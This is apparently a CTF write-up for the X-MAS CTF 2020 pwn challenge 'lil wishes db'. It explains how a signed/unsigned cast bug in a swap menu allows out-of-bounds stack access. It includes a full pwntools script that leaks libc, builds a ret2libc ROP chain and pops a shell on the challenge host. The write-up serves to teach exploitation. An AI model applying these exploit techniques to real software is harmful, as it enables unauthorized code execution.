








# lil wishes db

**Category**: Pwn

**The task**:




**TL;DR:** The binary had all protections enabled(ASRL, full RELRO, NX and whatnot). It also had some input validation in it(which prevents us from exploiting it). One of the input validations in the binary had multiple casting/conversions issues which allowed us later to: perform a "type-juggling" attack ----> bypass the validations ----> create an Out-of-Bound read/write on the stack ----> perform a ``RIP`` takeover via the stack return address. 

# Analysis

We were given a ``lil_wishes_db.zip`` archive and a remote tagrget host:
* ``libc.so.6`` - a copy of the libc version that the remote host is running 
* ``chall`` - x86 binary, stripped with no symbols (I recovered some of them + did re-naming in IDA so it will be easier to understand the screenshots)

Running _checksec_ on it shows that the binary has all of the protections enabled:
```
$ checksec chall
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
When running the binary, a menu with options pops up:
```
$ ./chall
Wishes database

Choose:
1.Swap IDs
2.Print database
3.Insert ID
4.Exit
```

It has a "database" where we can store our input (option 3):

```
Option:
3

Index:
2
Value:
1337
```

and also perform a "SELECT" queries (option 2) to see the database values:
```
Option:
2

ID[0] = 0
ID[1] = 0
ID[2] = 1337  <---- ayy
ID[3] = 0
ID[4] = 0
ID[5] = 0
ID[6] = 0
ID[7] = 0
```

And lastly, we have the "Swap IDs" feature (option 1).

Example of swapping between index 2 and index 6:

```
Option:
1

Index 1:
2
Index 2:
6

Choose:
1.Swap IDs
2.Print database
3.Insert ID
4.Exit

Option:
2

ID[0] = 0
ID[1] = 0
ID[2] = 0      <----- now have the value of ID[6]
ID[3] = 0
ID[4] = 0
ID[5] = 0
ID[6] = 1337   <----- not in ID[2] anymore
ID[7] = 0
```

The database(``ID[0...7]``) is actually an array of numbers, and it's stored on the stack. 

First thing I tried is to _INSERT_ an ID into a big index which is outside of the database(>7) and see if I manage to corrupt some memory / cause a SIGSEGV:

```
Option:
3

Index:
1337
Index should not be > 8
```

It says "``Index should not be > 8``"... erf, it has some input validations in it:



Negative numbers (like ``-1``) didn't work as well and returned the same error.

Then, I moved to look at the _Swap Indexes_ option(``1``) and saw that the conditional jump inside the validation is done with ``jg`` and not ``ja`` (compared to the _Insert_ functionality from the previous screenshot).



The ``jg`` instruction performs a **signed** comparasion.

ha! we have a type conversion bug between signed and unsigned numbers:



This means that we can specify a really big number(>7) to the ``"Index 1: __"`` / ``"Index 2: __"`` prompts in the "_Swap Indexes_" option and it will pass the validation. 

Let's try to swap between index ``2`` and index ``4294967295`` (== ``-1`` when signed):



nice! it worked, the ``jmp`` to ``puts("Index should not be > 8)"`` is not taken.

The binary does one more thing before calling the "_SwapIndexes_" function: **another** casting is performed on our input. 

It takes just the least 2 significant bytes of our input(notice how the ``0xffffffff`` turned into ``0xffff`` in the screenshot below). 

In other words: our value is being converted into an _unsigned short_:



From there, it uses this _unsigned short_ variable as an index specifier to swap between the two indexes (Index 2 and Index -1).

As can be seen below, when swapping entries: the program multiplies those index numbers by 8(``[rax*8]``) because each entry in the db is 8 bytes long:




So, using those two type conversions in _Swap Indexes_ we can read/write values anywhere on the stack :D

Another example, this time with a positive index ``11``:
* If we swap between Index 0 and Index 4294901771(``0xffff000b``), the program will:
  * Pass the validation because ``signed 0xffff000b`` is ``-65525``, which is not greater than 7.
  * When converted to an unsigned short, the ``0xffff000b`` number will become into a ``0x000b``(==11 in decimal, which is **not** supposed to be allowed. The max value is 7) 
  * As a result, the program will swap between ``ID[0]`` and ``ID[11]``(which is out-of-bound)
* Next time we choose ``2. Print DB`` we'll see our stack leak at ``ID[0]``.



Now let's continue to exploitation


# Exploitation

To exploit this bug we will need to:
* Swap between ``ID[0]`` and ``__libc_start_main`` (saved on the stack as a return address)
* Then, leak ``__libc_start_main`` using the _Print DB_ option (it will appear in ``ID[0]``)
* Using the leak, calculate the base of libc and add the offset to ``system``
* Insert ``system``'s address into ``ID[1]``
* Insert more addresses/values for the ROP chain and put them in ``ID[2...and so on]``
* Using the unsafe type casting(described above in "Analysis"): Swap between malicious the database entries and the return address on the stack in order to place the ROP chain outside of the database's memory.
* Choose ``Exit`` in the menu to trigger the ROP chain.
* profit :D go and ``cat`` that flag


"_What? how? But how the binary protections didn't stop you_": 
1. **To overcome RELRO**: we performed ``RIP`` takeover via the return address on the stack
2. **To overcome NX**: We performed a _ret2libc_ attack
3. **To overcome the stack canary**: We can leak the canary using another _swap_. But in this case, we don't even have to leak it. This is because: by calculating the right index when performing a _swap_, we can go straight to the ret addr and skip the canary. Hence, we keep the canary as-is and never overwrite it ✨.
4. **To overcome ASLR/PIE**: as mentioned above, we leak a ``libc`` pointer and from there, starts calculating offsets.


Below is my solution:

```py
from pwn import *

adjust_leak     = 0xe7  
ret_addr_offset = 4294901771    # 0xffff000b will make the "0x0b" at the end of the number to be used as index specifier(multiplied by 8):    
                                # 0x555555554864    lea    rdx, [rax*8]

libc = ELF('./libc.so.6')
rop  = ROP(libc)
p    = remote('challs.xmas.htsp.ro', 2002)


# leaking a libc pointer
p.sendlineafter('Option:', b'1')  # choosing "1.Swap IDs"
p.sendlineafter('Index 1:', b'0') # swapping between ID[0] with ret_addr_offset
p.sendlineafter('Index 2:', str(ret_addr_offset).encode()) # ID[0x0b] 

# fetching the leak
p.sendlineafter('Option: \n', b'2') # choosing "2.Print database"
p.recvline()  # empty line
id0 = p.recvline() # leaking <__libc_start_main+240>
libc_start_main_240 = id0[:-1].decode().split(' = ')[1]

libc_start_main = (int(libc_start_main_240) - adjust_leak) # getting <__libc_start_main+0>
libc_base       = libc_start_main - libc.symbols['__libc_start_main']

print('libc base :: ', hex(libc_base))


system_addr = libc_base + libc.symbols['system']
bin_sh_str  = libc_base + list(libc.search(b'/bin/sh'))[0]
pop_rdi     = libc_base + rop.find_gadget(['pop rdi', 'ret'])[0]
libc_adjust = libc_base + rop.find_gadget(['ret'])[0]

# pop rdi
p.sendlineafter('Option: \n', b'3')
p.sendlineafter('Index:', b'2') 
p.sendlineafter('Value:', str(pop_rdi).encode())


p.sendlineafter('Option:', b'1') 
p.sendlineafter('Index 1:', b'2') 
p.sendlineafter('Index 2:', str(ret_addr_offset).encode()) 


# bin sh str
p.sendlineafter('Option: \n', b'3')
p.sendlineafter('Index:', b'1') 
p.sendlineafter('Value:', str(bin_sh_str).encode())


p.sendlineafter('Option:', b'1') 
p.sendlineafter('Index 1:', b'1') 
p.sendlineafter('Index 2:', str(ret_addr_offset+1).encode())


# extra ret gadget for stack alignment
p.sendlineafter('Option: \n', b'3') 
p.sendlineafter('Index:', b'4') 
p.sendlineafter('Value:', str(libc_adjust).encode())


p.sendlineafter('Option:', b'1') 
p.sendlineafter('Index 1:', b'4') 
p.sendlineafter('Index 2:', str(ret_addr_offset+2).encode()) 


# system addr
p.sendlineafter('Option: \n', b'3')
p.sendlineafter('Index:', b'1') 
p.sendlineafter('Value:', str(system_addr).encode())


p.sendlineafter('Option:', b'1')
p.sendlineafter('Index 1:', b'1') 
p.sendlineafter('Index 2:', str(ret_addr_offset+3).encode())

# pop a shell
p.sendlineafter('Option: ', b'4') # choose "4. Exit" to trigger the ROP chain
p.interactive()

```

output:

```
$ python3 solve.py
[*] '/root/host-share/xmas-ctf-2020/pwn/lil-wishes-db/lil_wishes_db/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 198 cached gadgets for './libc.so.6'
[+] Opening connection to challs.xmas.htsp.ro on port 2002: Done
libc base ::  0x7f7cf8830000
[*] Switching to interactive mode


Merry Christmas!
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{oh_nooo_y0u_ru1ned_the_xmas}
```

Thanks for the challenge :D 